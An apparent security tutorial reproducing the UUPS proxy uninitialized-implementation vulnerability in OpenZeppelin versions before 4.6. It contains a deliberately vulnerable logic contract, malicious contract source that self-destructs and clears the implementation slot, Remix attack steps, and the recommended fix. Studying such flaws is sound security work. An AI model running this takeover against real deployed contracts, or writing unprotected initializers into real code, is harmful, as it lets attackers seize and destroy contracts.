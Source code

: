 ## The vuluerabiliry of UUPS

### 0x00 The implement contract without initialize

### Concept

Before the old version of UUPS upgrade mode (v4.6), `Initializable.sol` did not have a `_disableInitializers()` function. This function is generally used in the constructor of the logic contract to initialize the logic contract.

If a logic contract's `initialize()` function has no access control and can be called by anyone, for example:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin-contracts-upgradeable@v4.2.0/contracts/proxy/utils/UUPSUpgradeable.sol";

contract Logic_1 is OwnableUpgradeable, UUPSUpgradeable {
    uint256 public value;

    function initialize() external {
        __Ownable_init();
    }

    function _authorizeUpgrade(
        address newImplementation
    ) internal override onlyOwner {}

    function setValue(uint256 newValue) external {
        value = newValue;
    }

}
```

Then there will be a serious security vulnerability here. Hackers can call the `initialize()` function and become the `owner` of the logic contract, thereby executing the `upgradeToAndCall(address,bytes)` function in the logic contract and calling the self-destruct function in the malicious contract through `delegatecall newImplement`, causing the logic contract to self-destruct.

*The impact is: the proxy contract will not be able to call the functions of the logic contract, and the contract cannot be upgraded.*

### Reproduction

> **The reason for not choosing Foundry is that due to the version upgrade, the bytecode `opcode:selfdestruct` has been deprecated, and the function has been modified to not have the function of destroying the contract code. Therefore, in order to reproduce this vulnerability, it can only be done through `Remix` and use a lower version of the compiler.**

**Test environment**

- IDE: Remix
- evm-version: shanghai
- solc-version: 0.8.20
- libraries: openzepplin@v4.2.0
- codeLink: 
- Deployer: 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
- Hacker:  0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2

#### **Case 1**

> The hacker becomes the owner of the logic contract and delegatecall the self-destruction function of the malicious contract when executing upgradeToAndCall().

```solidity
// Malicious contract
contract MaliceContract {
    address public constant owner = (
        0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
    );

    function selfKill() external {
        selfdestruct(payable(owner));
    }

    function upgradeTo(address) external {
        assembly {
            sstore(
                0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc,
                0
            )
        }
    }
}
```

**Steps **

- step1：The `deployer` deploys the proxy contract, logic contract, and initializes the proxy contract.

![image-20240919152610143](v_uups/image-20240919152610143.png)

- step2 : Instantiate the proxy contract through `At Address` and test its functionality.(no problem)

![image-20240919152905749](v_uups/image-20240919152905749.png)

- step3: Hackers perform malicious actions.
    - Deploy malicious contracts.
    - Call the `initialize()` function and become the `owner` of the logic contract.
    - Call the `upgradeToAndCall()` function and pass in the address of the malicious contract and the selector of the self-destruct function.

​		![image-20240919153902507](v_uups/image-20240919153902507.png)

- step4: Return to the proxy contract to call the logic contract function and upgrade the contract.

![image-20240919154139258](v_uups/image-20240919154139258.png)

![image-20240919154313341](v_uups/image-20240919154313341.png)

#### Case 2

> If there is a self-destruct function in the logic contract, and this function can only be called by the `owner`, then the hacker can directly become the `owner` by initializing the logic contract and destroy the logic contract.

### Summarize

After version 4.6, the UUPS proxy mode has changed a lot, limiting the upgrade function of the logic contract to be called only by the proxy contract, which avoids the risk of `case 1`. Of course, the safest way is to use a higher version of `openzepplin` and call the `_disableInitializers()` function in the constructor of the logic contract.

> Tips: As Ethereum continues to upgrade, the function of the bytecode `selfdestruct` has been continuously weakened. Now it no longer has the function of deleting the contract code, and can only transfer the `ETH` in the contract, so even if there is `selfdestruct`, it will not be as terrible as before. But everything still needs to be done with caution, and it is better to be safe than sorry.